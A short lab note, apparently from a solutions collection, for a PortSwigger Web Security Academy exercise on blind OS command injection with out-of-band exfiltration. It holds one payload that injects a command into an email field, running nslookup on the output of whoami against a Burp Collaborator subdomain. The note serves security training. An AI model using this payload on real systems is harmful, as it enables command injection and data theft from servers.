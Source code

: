 # Lab

https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

## Payload

``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``